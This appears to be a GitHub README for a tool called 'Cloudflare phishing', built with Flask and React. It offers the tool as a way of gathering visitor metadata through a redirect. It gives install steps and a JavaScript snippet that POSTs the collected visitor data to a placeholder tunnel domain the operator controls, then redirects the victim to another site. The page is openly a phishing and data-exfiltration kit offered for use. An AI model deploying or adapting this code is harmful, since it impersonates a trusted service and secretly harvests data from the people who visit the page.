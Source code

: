 ![Python](https://img.shields.io/badge/Python-3776AB?style=for-the-badge&logo=python&logoColor=white)
![Flask](https://img.shields.io/badge/Flask-000000?style=for-the-badge&logo=flask&logoColor=white)
![React](https://img.shields.io/badge/React-20232A?style=for-the-badge&logo=react&logoColor=61DAFB)
![TypeScript](https://img.shields.io/badge/TypeScript-007ACC?style=for-the-badge&logo=typescript&logoColor=white)
![Tailwind CSS](https://img.shields.io/badge/Tailwind_CSS-38B2AC?style=for-the-badge&logo=tailwind-css&logoColor=white)
![Bun](https://img.shields.io/badge/Bun-000000?style=for-the-badge&logo=bun&logoColor=white)

# Cloudflare phishing

## That's useful thing for gathering meta-datas by using redirect in other sites.

---

### Getting start

- Installing dependencies

```bash
# In directory Frontend you have to install dependencies for bun
$ bun install

# In root directory, you have to install flask from requriments.txt
$ pip install -r requriments.txt
```

### CHANGES

- In directory Frontend, exists file App.tsx, you have to change below:

```js
// Redirect
setTimeout(() => {
  window.location.href = "http://<DOMAIN FOR REDIRECT>";
}, 1000);

// Your tunnel
const response = await fetch("http://<DOMAIN YOUR TUNNEL>", {
  method: "POST",
  headers: {
    "Content-Type": "application/json",
  },
  body: JSON.stringify(data),
});
```

![Cloudflare](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Faetoswire.com%2Fstorage%2Fclients%2Fclient-6590%2Fcloudflare-logo.png&f=1&nofb=1&ipt=f3aa7db60d7aff2b18233ec9b7657ca42488796ee5df52b2116aadb56b27bc3e)
